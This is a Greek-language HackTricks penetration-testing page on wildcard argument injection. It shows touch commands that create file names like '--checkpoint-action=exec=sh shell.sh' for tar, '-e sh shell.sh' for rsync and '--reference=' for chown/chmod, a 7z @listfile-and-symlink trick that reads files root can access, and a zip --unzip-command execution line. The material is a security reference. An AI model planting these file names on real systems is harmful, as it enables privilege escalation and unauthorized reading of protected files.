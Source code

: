 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## chown, chmod

Μπορείτε να **υποδείξετε ποιον ιδιοκτήτη αρχείου και ποιες άδειες θέλετε να αντιγράψετε για τα υπόλοιπα αρχεία**
```bash
touch "--reference=/my/own/path/filename"
```
Μπορείτε να εκμεταλλευτείτε αυτό χρησιμοποιώντας [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(συνδυασμένη επίθεση)_\
Περισσότερες πληροφορίες στο [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## Tar

**Εκτέλεση αυθαίρετων εντολών:**
```bash
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
Μπορείτε να εκμεταλλευτείτε αυτό χρησιμοποιώντας [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(tar attack)_\
Περισσότερες πληροφορίες στο [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## Rsync

**Εκτέλεση αυθαίρετων εντολών:**
```bash
Interesting rsync option from manual:

-e, --rsh=COMMAND           specify the remote shell to use
--rsync-path=PROGRAM    specify the rsync to run on remote machine
```

```bash
touch "-e sh shell.sh"
```
Μπορείτε να εκμεταλλευτείτε αυτό χρησιμοποιώντας [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(_rsync _attack)_\
Περισσότερες πληροφορίες στο [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## 7z

Στο **7z** ακόμη και χρησιμοποιώντας `--` πριν από `*` (σημειώστε ότι το `--` σημαίνει ότι η επόμενη είσοδος δεν μπορεί να θεωρηθεί ως παράμετροι, οπότε μόνο διαδρομές αρχείων σε αυτή την περίπτωση) μπορείτε να προκαλέσετε ένα αυθαίρετο σφάλμα για να διαβάσετε ένα αρχείο, οπότε αν μια εντολή όπως η παρακάτω εκτελείται από τον root:
```bash
7za a /backup/$filename.zip -t7z -snl -p$pass -- *
```
Και μπορείτε να δημιουργήσετε αρχεία στον φάκελο όπου εκτελείται αυτό, θα μπορούσατε να δημιουργήσετε το αρχείο `@root.txt` και το αρχείο `root.txt` που είναι ένα **symlink** στο αρχείο που θέλετε να διαβάσετε:
```bash
cd /path/to/7z/acting/folder
touch @root.txt
ln -s /file/you/want/to/read root.txt
```
Τότε, όταν εκτελείται το **7z**, θα θεωρήσει το `root.txt` ως ένα αρχείο που περιέχει τη λίστα των αρχείων που πρέπει να συμπιέσει (αυτό υποδεικνύει η ύπαρξη του `@root.txt`) και όταν το 7z διαβάσει το `root.txt`, θα διαβάσει το `/file/you/want/to/read` και **καθώς το περιεχόμενο αυτού του αρχείου δεν είναι μια λίστα αρχείων, θα εμφανίσει ένα σφάλμα** δείχνοντας το περιεχόμενο.

_Περισσότερες πληροφορίες στις αναφορές της CTF από το HackTheBox._

## Zip

**Εκτέλεση αυθαίρετων εντολών:**
```bash
zip name.zip files -T --unzip-command "sh -c whoami"
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
